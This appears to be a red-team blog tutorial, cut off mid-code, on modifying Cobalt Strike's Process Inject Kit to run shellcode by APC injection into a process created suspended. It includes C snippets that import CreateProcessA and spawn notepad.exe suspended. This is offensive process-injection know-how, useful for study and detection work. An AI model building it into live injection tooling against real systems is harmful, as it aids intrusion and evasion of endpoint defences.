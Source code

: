 My goal was to implement QueueUserAPC into Cobalt Strike beacons using the Process Inject Kit.

QueueUserAPC allows an application to queue an Asynchronous Procedure Call (APC) to a thread. Once the thread is in an alertable state, the APC is executed. QueueUserAPC also works with suspended threads, as long as the thread is resumed later.

In malware, the APC is usually a pointer to some shellcode, meaning that once the thread is alerted, the shellcode executes.

Since QueueUserAPC requires an alertable or suspended thread, one of the main ways to perform QueueUserAPC is to create a suspended process so that all of its threads are suspended. We can then queue an APC to the suspended process's main thread, then resume that thread to execute the shellcode.

The Process Inject Kit comes with two `.c` files, `process_inject_spawn.c` and `process_inject_explicit.c`, which contain code to perform their associated fork and run technique.

I decided to go with `process_inject_spawn.c` for this case, which spawns a temporary process to execute our capabilities. We can alter this code to get our process to spawn in a suspended state and perform QueueUserAPC against it.

## Customizing Process Spawning

The code currently uses `BeaconSpawnTemporaryProcess`, which accounts for things like PPIDs, process architecture, and other Beacon-related data, but doesn't provide options to create the process in a suspended state.

```c
if (!BeaconSpawnTemporaryProcess(x86, ignoreToken, &si, &pi)) {
  BeaconPrintf(CALLBACK_ERROR, "Unable to spawn %s temporary process.", x86 ? "x86" : "x64");
  return;
}
```

We would need to use WinAPIs like `CreateProcessA` for our case.

For all WinAPIs like `CreateProcessA`, we need to import them into our program by adding something like this to the top of the file:

```c
DECLSPEC_IMPORT WINBASEAPI WINBOOL WINAPI KERNEL32$CreateProcessA (
  LPCSTR lpApplicationName,
  LPSTR lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL bInheritHandles,
  DWORD dwCreationFlags,
  LPVOID lpEnvironment,
  LPCSTR lpCurrentDirectory,
  LPSTARTUPINFOA lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation);
```

And then in our code, we can call `CreateProcessA` by using the following:

```c
// CreateProcess in suspended state
char cmd[] = "notepad.exe"
BOOL success = KERNEL32$CreateProcessA(
  NULL,
  cmd,
  NULL,
  NULL,
  FALSE,
  CREATE_NO_WINDOW | CREATE_SUSPENDED,
  NULL,
  NULL,
  &si,
  &pi);
if (!success) {
```